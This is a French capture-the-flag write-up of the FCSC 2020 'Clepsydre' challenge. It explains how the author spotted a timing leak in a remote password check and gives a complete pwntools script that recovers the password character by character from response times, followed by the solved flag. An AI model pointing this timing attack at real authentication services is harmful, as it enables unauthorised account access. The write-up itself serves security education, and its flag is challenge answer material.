 # Clepsydre

Auteur: Ewaël

**Clepsydre** est un des challenges misc du FCSC 2020. Il valait 138 points à la fin du CTF.

![Clepsydre](clepsydre.png)

Derrière son énoncé énigmatique, l'hôte distant attend simplement un mot de passe:

![test](test.png)

Ne sachant pas d'où partir, je commence par entrer les initiales de la citation... Et je réalise déjà un comportement étrange. En effet, la vérification n'est pas instantanée, contrairement à un test avec "admin" par exemple. Je réduis alors la chaine des initiales "Tvapaqsa" en enlevant une lettre à la fois pour voir à quel moment ce comportement est différent et je comprends que seule la première lettre "T" provoque ce délai. Après quelques recherches, je tombe sur cette résolution de challenge:

[https://tildeho.me/hack-around-the-clock-introduction-to-timing-attacks](https://tildeho.me/hack-around-the-clock-introduction-to-timing-attacks)

Je trouve que le cas de la *Time based attack* se prête particulièrement bien à la situation et j'essaie. Je code donc le script suivant qui teste les caractères de la chaine ```abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!"#$%&'()*+,-./:;<=>?@[\]^_`{|}~``` en calculant à chaque fois le temps de réponse et qui isole, au fur et à mesure, ceux dont la vérification est plus longue:

```python
#!/usr/bin/env python3

import time
import string
from pwn import *

context.log_level = 'warn'
host = "challenges2.france-cybersecurity-challenge.fr"
port = 6006

dico = string.ascii_letters + string.digits + string.punctuation
print("[*] Dico is {}".format(dico))

passwd = ""
curr = 0

over = False

while not over:
    arr = []
    times = []

    for l in dico:
        trying = passwd + l
        print("[+] Trying {}".format(trying))
        r = remote(host, port)
        start = time.time()
        try:
            r.sendline(trying)
        except Exception:
            pass
        try:
            resp = r.recvuntil("incorrect !")
        except EOFError:
            print(resp)
            print(r.clean)
            over = True
            break
        end = time.time()
        times.append(end - start)
        arr.append("{} -> {} seconds".format(l, end - start))
        r.close()

    m = 0
    im = 0
    for i in range(len(times)):
        if times[i] > m:
            m = times[i]
            im = i

    oldcurr = curr
    curr += times[im]
    passwd += arr[im][0]
    print("[x] Pass is {} and current time is {} secs (+ {} secs)".
            format(passwd, str(curr)[:4], str(curr-oldcurr)[:4]))
```

Le temps affiché sert à vérifier que le script se déroule comme il faut et qu'une seconce est bien ajoutée à chaque nouvelle lettre considérée comme correcte. Je l'exécute, et voici le résultat:

![script](clepsydre_script.png)

Si je ne comprends pas vraiment l'origine de l'erreur, je teste tout de suite la chaine qui a causé cet arrêt du script, et elle fonctionne. Je récupère alors le flag:

![flag](flag.png)

`FCSC{6bdd5f185a5fda5ae37245d355f757eb0bbe888eea004cda16cf79b2c0d60d32}`

